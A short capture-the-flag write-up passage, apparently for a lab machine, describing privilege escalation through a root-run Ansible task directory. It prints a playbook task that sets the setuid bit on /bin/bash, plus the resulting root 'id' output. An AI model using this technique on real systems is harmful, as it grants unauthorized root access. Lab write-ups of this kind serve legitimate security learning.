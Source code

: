 We are Phil!


<a id="orgbc65ff9"></a>

# Privilage Escaletion as Root

Once in we upload and execute leanpeace.

    ╔══════════╣ Modified interesting files in the last 5mins (limit 100)
    /tmp/lp.sh                                                                                                                                                                                                           
    /tmp/hsperfdata_frank/823
    /opt/automation/tasks/playbook_1.yml
    /var/log/ubuntu-advantage-timer.log
    /var/log/syslog
    /var/log/journal/85d739f40e3d4536ad871c536347b52b/user-1000.journal
    /var/log/journal/85d739f40e3d4536ad871c536347b52b/user-1001.journal
    /var/log/journal/85d739f40e3d4536ad871c536347b52b/system.journal
    /var/log/kern.log
    /var/log/auth.log
    /home/phil/.gnupg/pubring.kbx
    /home/phil/.gnupg/trustdb.gpg

`/opt/automation/tasks/playbook_1.yml` is now as mission.

This YAML file is an `Ansible playbook`, a document that defines a set of actions to be performed on a set of specified hosts. In this case, the playbook is configured to act on the host "localhost" and contains a single activity (tasks).

The specific task is called "Checking webapp service" and uses Ansible's ansible.builtin.systemd module to manage the "webapp" service via systemd.

With a quick search we find something even more interesting [POC](https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/ansible-playbook-privilege-escalation/).

If the target system runs automation tasks with Ansible Playbook as root and we have write permission of task files (tasks/), we can inject arbitrary commands in yaml file.
For example, create a new file /opt/ansible/tasks/evil.yaml.

Whit a little refactor 

    - hosts: localhost
      tasks:
        - name: Change permissions of /bin/bash
          ansible.builtin.shell: |
            chmod +s /bin/bash	    

Ad a few time&#x2026;

    phil@inject:/opt/automation/tasks# id
    uid=1001(phil) gid=1001(phil) euid=0(root) egid=0(root) groups=0(root),50(staff),1001(phil)

